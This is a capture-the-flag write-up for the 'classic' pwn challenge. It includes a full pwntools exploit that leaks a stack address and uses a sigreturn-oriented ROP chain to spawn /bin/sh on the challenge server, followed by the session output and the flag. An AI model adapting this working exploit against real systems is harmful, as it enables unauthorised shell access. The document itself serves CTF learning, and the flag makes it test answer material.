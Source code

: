 # pwn / classic

> Points: 100

## Question

> A timeless classic.
>
> nc chall.uwc.tf 2005

### Provided Files

- [`main`](./main)

## Solution

Analyzing the binary, we find there is a buffer overflow vulnerability.
Obviously, the best way to solve this is to go complete overkill
and generate a shell somehow, and then `cat flag.txt`.

Since this will be a somewhat complicated ROP chain,
it's easier to just do this with `pwntools`.
One member of the team pulled some black magic out
(pictured below) and pulled it off:

```py
#!/usr/bin/env python3
from pwn import *
import sys

context.clear(arch="amd64", endian="little", os="linux")
p = remote("chall.uwc.tf", "2005")
# p = process("./main")
# gdb.attach(p.pid)

elf = ELF("./main")
rop = ROP(elf)

# symbols
SYM_ENVIRON = elf.symbols["environ"]
SYM_PUTS = elf.symbols["puts"]
SYM_MAIN = elf.symbols["main"]

# rop gadgets
OFFSET = b"A" * 264
POP_RAX = rop.find_gadget(["pop rax", "ret"])[0]
POP_RDI = rop.find_gadget(["pop rdi", "ret"])[0]
SYSCALL = rop.find_gadget(["syscall"])[0]

# leak stack offset with environ
chain = OFFSET + p64(POP_RDI) + p64(SYM_ENVIRON) + p64(SYM_PUTS) + p64(SYM_MAIN)
p.sendline(chain)
p.recvline() # read garbage
received = p.recvline().strip()
leak = u64(received.ljust(8, b"\x00"))
leak = leak - 320 + 32

magic = 272 # offset from rop chain to /bin/sh
cmd = b'/bin/sh\0'
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = leak + magic            # /bin/sh
frame.rsi = leak + magic + len(cmd) # argv
frame.rsp = leak                    # some stack space
frame.rip = SYSCALL

# perform exploit
chain = OFFSET + p64(POP_RAX) + p64(0xf) + p64(SYSCALL) + bytes(frame)
argv = p64(leak + magic) + p64(0)
p.sendline(chain + cmd + argv)
p.interactive()
```

We can now get the flag, in the easiest way possible.

```text
$ ./exploit.py
[+] Opening connection to chall.uwc.tf on port 2005: Done
[*] './main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 122 cached gadgets for './main'
[*] Switching to interactive mode
/work # $ cat flag.txt
cat flag.txt
uwctf{classic_overflow_11922e1d1d2ed8f2}
/work # $ echo "uwctf{ban_raymo_make_aqt_owner}" > best_flag_of_all_time.txt
echo "uwctf{ban_raymo_make_aqt_owner}" > best_flag_of_all_time.txt
```

Now, where are those bonus points @Raymo111?

### Flag

`uwctf{classic_overflow_11922e1d1d2ed8f2}`
